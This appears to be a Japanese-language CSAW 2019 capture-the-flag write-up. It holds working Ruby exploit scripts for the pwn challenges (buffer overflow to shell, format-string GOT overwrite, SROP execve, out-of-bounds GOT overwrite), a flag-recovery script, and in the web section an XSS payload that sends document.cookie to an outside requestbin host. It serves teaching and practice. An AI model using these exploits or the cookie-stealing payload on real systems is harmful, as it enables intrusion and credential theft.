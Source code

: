 ```yaml
---
title: "Csaw2019 writeup"
date: 2019-09-16T09:50:28+09:00
draft: false
categories:
- writeup
---
```


## Misc

### mcgriddlev2

- 問題文にFLAGが記載されている
- **flag{W3lcome_7o_CSAW_QUALS_2019!}**

## Pwn 

### baby_boi (50pt)

- シンプルなBOFでIPが奪える問題
- libcのアドレスを出力してくれているので、配布されたlibcでオフセット求めてOne-Gadget に飛ばしてシェルを奪う
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1005
libc = ELF.new "./libc-2.27.so"
#libc = ELF.new "/lib/x86_64-linux-gnu/libc-2.29.so"
def z; $z; end
z.recvuntil("\n")
libc_printf = z.recvuntil("\n").match(/: (.+)/)[1].to_i(16)
libc_base = libc_printf - libc.symbols["printf"]
puts "%x" % libc_base
payload = "A" * 40
payload << p64(libc_base + 0x4f322)
z.sendline(payload)
z.interact
```
- **flag{baby_boi_dodooo_doo_doo_dooo}**

### GOT Milk? (50pt)

- 独自の共有オブジェクトとバイナリが配られる
- `set LD_LIBRARY_PATH ./` でカレントディレクトリの共有オブジェクトを見るようにする
- FSBがあるので、それを使ってGOT Overwriteする
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
require 'fsa'
#$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1004
def z; $z; end
value = 0x89
fmt = FSA.new()
fmt[0x804a010] = value
payload = fmt.payload(7) # index of argument
puts z.recvuntil("? ")
z.sendline(payload)
puts z.recv
```
- **flag{y0u_g00000t_mi1k_4_M3!?}**

### small_boi (100pt)

- statically linked でstrippedな小さなバイナリが与えられる
- sig\_return システムコールを呼ぶようなraxの設定のされ方があるのと自明なBOFがあるので、Sigreturn ROP (SROP) で `execve("/bin/sh", 0, 0)` を実行する
  - SROPは、スタックの値を使ってsig\_return実行時にレジスタの値を代入する攻撃
  - これを使ってrdiやrsi、ripなどが設定できるため任意のシステムコールを呼べる
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
#$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1002
def z; $z; end
payload = "\x00" * 0x28
payload << p64(0x40017c)
payload << p64(0x0) * 4
payload << p64(0x0) * 8 # r8~r15
payload << p64(0x4001ca) # rdi = /bin/sh
payload << p64(0) # rsi
payload << p64(0) # rbp
payload << p64(0) # 
payload << p64(0) # 
payload << p64(0x3b) # rax = 0x3b 
payload << p64(0) # rcx
payload << p64(0)   # rsp
payload << p64(0x00400185) # rip = syscall
payload << p64(0x0) # eflags
payload << p16(0x33) # cs
payload << p16(0)
payload << p16(0)
payload << p16(0x2b) # ss
payload << p64(0x0) * 5 # err ~ union
payload << p64(0x0) * 8 # reserved[8]
z.sendline payload
z.interact
```
- **flag{sigrop_pop_pop_pop}**

### traveller

- 解けなかったのでwriteupを見た
- Off-by-oneがあるためHeap問題かと思ったら操作対象のインデックスの入力に負数が入力できるOOB問題
- 編集コマンドで、`-50` をするとfree@gotを書き換えられたのでこれを使って`cat_flag`関数に飛ばす

```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'

$z = Sock.new "pwn.chal.csaw.io", 1003
#elf = ELF.new "./traveller"
#libc = ELF.new "./libc-2.23.so"

context.log_level = :debug
def z; $z; end

def add(dist, dest)
  z.sendline "1"
  z.recvuntil "> "
  z.sendline dist.to_s
  z.recvuntil ": "
  z.sendline dest
  z.recvuntil "> "
end

def change(dist, dest)
  z.sendline "2"
  z.recvuntil ": "
  z.sendline dist.to_s
  z.send dest
  z.recvuntil "> "
end

def delete(dist)
  z.sendline "3"
  z.recvuntil ": "
  z.sendline dist.to_s
  z.recvuntil "> "
end

def check(dist)
  z.sendline "4"
  z.recvuntil ">"
  z.sendline dist.to_s
  return z.recvuntil "> "
end

tmp = z.recvuntil "> "
stack_address = tmp.match(/.\n(.*) \n\n/)[1].to_i(16)

add(1, "AAAAAAAA")
change(-50, p64(0x4008b6))
puts delete(0)
```
- **flag{h0pe_y0u_3nj0y_ur_j0urn3y}**

## Rev

### Beleaf

- バイナリ中にFLAGに使われる文字列とインデックスの配列があるので、それを引っこ抜いてきて実行する
```ruby
#!/usr/bin/env ruby

idxs = [0x1, 0x9, 0x11, 0x27, 0x02, 0x00, 0x12, 0x03, 0x8, 0x12, 0x9, 0x12, 0x11, 0x1, 0x3, 0x13, 0x4, 0x3, 0x5, 0x15, 0x2e, 0xa, 0x3, 0xa, 0x12, 0x3, 0x1, 0x2e, 0x16, 0x2e, 0xa, 0x12, 0x6]

flag = [0x77, 0x66, 0x7b, 0x5f, 0x6e, 0x79, 0x7d, 0x20, 0x62, 0x6c, 0x72, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x61, 0x65, 0x69, 0x20, 0x6f, 0x74, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x67, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x75].map(&:chr)

idxs.each do |i|
  print flag[i]
end
```
- **flag{we_beleaf_in_your_re_future}**

## Web

### baby csp

- CSPが有効なXSS問題
  - `default-src 'self'; script-src 'self' *.google.com; connect-src *`
- 上記のCSPからJSONPエンドポイントでのXSSを使う
  - https://inside.pixiv.blog/kobo/5137
- FLAGは、Cookieにあるので、requestbin を使ってPOSTさせるJavaScriptを埋め込む
- `<script src="https://accounts.google.com/o/oauth2/revoke?callback=navigator.sendBeacon('http://requestbin.net/r/ugix54ug', document.cookie)"></script>`
- **flag{csp_will_solve_EVERYTHING}**
